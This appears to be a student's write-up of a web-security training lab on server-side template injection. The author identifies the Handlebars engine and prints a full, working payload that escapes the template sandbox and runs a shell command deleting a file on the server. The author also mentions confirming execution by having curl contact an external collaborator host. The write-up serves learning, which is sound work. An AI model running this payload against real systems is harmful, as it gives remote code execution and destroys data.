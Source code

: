 # Practitioner Lab 110: Server-side template injection in an unknown language with a documented exploit

---

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

![Untitled](Practitioner%20Lab%20110%20Server-side%20template%20injectio%20e95658f5139545ef9b20c5bab9ae52d5/Untitled.png)

Found this as I was browsing the website. 

![Untitled](Practitioner%20Lab%20110%20Server-side%20template%20injectio%20e95658f5139545ef9b20c5bab9ae52d5/Untitled%201.png)

I found it was handlebars. I searched for a handlebars exploit and found one that had been done on shopify.  the thing with this exploit is that it doesn’t give an output. 

after using this payload. 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

```

I had to url encode this and this worked fine. 

it solved the lab. I was previously running the exploit and it was not giving me any type of output.

A better way to test it is with burp collaborator. you can do a curl to the burp collaborator and if it works then it means that it is running the command.